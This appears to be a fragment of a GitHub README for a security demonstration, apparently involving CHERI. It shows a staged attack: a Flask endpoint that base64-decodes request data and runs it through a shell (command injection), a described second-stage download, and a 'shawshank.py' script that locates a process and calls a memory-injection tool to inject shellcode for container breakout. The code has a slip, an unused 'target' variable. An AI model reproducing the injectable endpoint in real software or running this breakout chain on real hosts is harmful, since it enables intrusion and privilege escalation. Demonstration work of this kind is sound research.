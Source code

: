 
    ```python
    @app.route('/hw/verify', methods=["POST"])
    def verify():
        data = request.json['vehicle_id']
        print(data)
        command_str = "python3 hw-io.py "+base64.urlsafe_b64decode(data).decode('utf-8')
        print(command_str)
        output = subprocess.run(command_str,
                                shell=True,
                                text=True)
        print(output)
        if output.returncode == 0:
            return jsonify(True)
        else:
            return jsonify(False)
    ```

    - The malicious payload from Stage 1 downloads the Stage 2 payload, untars and executes it. 
    - The Stage 2 payload finds a target process from the host machine to do memory injection and injects a specific shellcode into the memory of the process, which can run in the same privileges of the owner of the target process. 
        <details>
        <summary>shawshank.py</summary>
    
        ```python
        import subprocess
        import os
        from sys import argv


        def find_process_by_name(cheri_on):
            targets = []

            if cheri_on == "cheri_on":
                target = ["simple_http_server_cheri"]
            else:
                targets = ["http.server", "fish"]
            for target in targets:
                target_pid = int(subprocess.check_output(["pgrep","-f", target]))
                if target_pid:
                    return target_pid


        def container_breakout(cheri_on):
            target_pid = find_process_by_name(cheri_on)
            if target_pid:
                os.chdir(os.getcwd()+"/mem_inject")
                subprocess.run("python3 mem_inject.py " + str(target_pid) + " " + argv[1], shell=True, check=True)


        container_breakout(argv[0])
        ```
    
        </details>
    